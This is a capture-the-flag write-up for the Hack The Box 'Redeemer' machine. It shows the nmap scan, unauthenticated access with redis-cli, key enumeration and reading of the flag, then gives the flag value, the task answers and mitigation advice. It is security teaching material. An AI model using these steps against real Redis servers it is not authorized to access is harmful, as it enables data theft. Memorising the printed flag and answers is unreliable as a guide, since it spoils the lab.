


# Redeemer

| Field          | Value                                    |
| -------------- | ---------------------------------------- |
| **Difficulty** | Very Easy                                |
| **Platform**   | Hack The Box — Starting Point            |
| **Machine**    | Redeemer                                 |
| **OS**         | Linux                                    |
| **Target**     | `<TARGET_IP>` (assigned via the HTB VPN) |
| **Port**       | 6379/tcp                                 |

---

## Lab Objective

Capture the flag stored on the Redeemer machine. The box exposes a Redis
key-value store with no authentication, and the flag lives in one of its keys.

---

## Skills Learned

- Scanning a host with Nmap and reading service/version banners
- Connecting to an unauthenticated Redis instance with `redis-cli`
- Enumerating and dumping Redis keys to recover stored data

---

## Recon

A full TCP scan with service detection turned up exactly one interesting port:

```bash
sudo nmap -sS -sV -T4 -p- --min-rate 1000 --open <TARGET_IP>
```

```text
Host is up (0.41s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

Everything else is closed. A single Redis service on 6379 is the entire attack
surface.



---

## Connecting to the Service

Redis ships a command-line client, `redis-cli`. The box I was working from
doesn't ship it (Arch has since renamed the package to `valkey`, which still
provides the `redis-cli` binary), so I installed it:

```bash
sudo pacman -S redis
redis-cli -h <TARGET_IP> -p 6379
```

Connecting dropped me straight into an interactive prompt with no password
challenge — the first sign this instance isn't protected.

---

## Enumeration

Once connected, the usual Redis introspection commands tell the whole story:

```text
<TARGET_IP>:6379> INFO keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0

<TARGET_IP>:6379> KEYS *
1) "numb"
2) "stor"
3) "flag"
4) "temp"
```

Four keys in database 0, and one of them is literally named `flag`.

---

## Exploitation Steps

1. Ran a full Nmap scan; identified Redis 5.0.7 on 6379.
2. Installed `redis-cli` and connected — no authentication was requested.
3. Listed the keys with `KEYS *` and spotted `flag`.
4. Read it directly:

```text
<TARGET_IP>:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```

That hash is the root flag. Submitting it marks the machine solved.



---

## Why It Works

Redis requires no authentication by default. If it's bound to an interface an
attacker can reach and `requirepass` is not set, anyone who can hit the port
gets full, unauthenticated read/write access to the data store. Here the
instance was reachable over the VPN with no password, so `GET flag` simply
returned the value.

---

## Root Cause

A misconfigured Redis service:

- No `requirepass` directive — authentication is disabled.
- Bound to a reachable interface without network-level restrictions (no
  firewall limiting 6379 to trusted hosts).
- Sensitive data (the flag) stored in plaintext in the keystore.

---

## Impact

An attacker with network access to the port can:

- Read every key in the store — credentials, secrets, flags.
- Write arbitrary keys, and because Redis can rewrite its own RDB file
  anywhere the service user can write, achieve file write and — classically —
  remote code execution (e.g. dropping an SSH `authorized_keys` or a cron job
  as root).

---

## Mitigation

- Set a strong `requirepass`, and on Redis 6+ use the ACL system.
- Bind Redis to `127.0.0.1` unless remote access is genuinely required;
  otherwise restrict 6379 with a firewall or security group to known hosts.
- Keep `protected-mode yes` enabled (it only helps when no password and no
  explicit bind are set, so pair it with the above).
- Don't store secrets or flags in plaintext; treat the datastore as an
  untrusted input surface.

---

## Starting Point Tasks

Redeemer is a guided Starting Point box. The task answers:

| #   | Question                                  | Answer             |
| --- | ----------------------------------------- | ------------------ |
| 1   | Which TCP port is open on the machine?    | `6379`             |
| 2   | Which service is running on that port?    | `redis`            |
| 3   | What type of database is Redis?           | In-memory database |
| 4   | CLI utility to interact with Redis?       | `redis-cli`        |
| 5   | Flag to specify the hostname?             | `-h`               |
| 6   | Command for server info/stats?            | `info`             |
| 7   | Redis server version?                     | `5.0.7`            |
| 8   | Command to select a database?             | `select`           |
| 9   | Number of keys in database 0?             | `4`                |
| 10  | Command to obtain all keys in a database? | `keys *`           |

---

## Key Takeaways

- A single open port can be the whole engagement — here, Redis alone was enough.
- Unauthenticated Redis is a direct data-disclosure risk and, historically, an
  RCE risk; never expose it without a password and a bind/firewall restriction.
- `KEYS *` + `GET` is the fastest path to "what's in this store?" — perfect for
  CTF flags and real recon alike.

---

## References

- [Hack The Box — Redeemer](https://app.hackthebox.com/machines/Redeemer)
- [Redis Security](https://redis.io/docs/latest/operate/oss_and_stack/security/)
- [HTB Starting Point](https://help.hackthebox.com/)
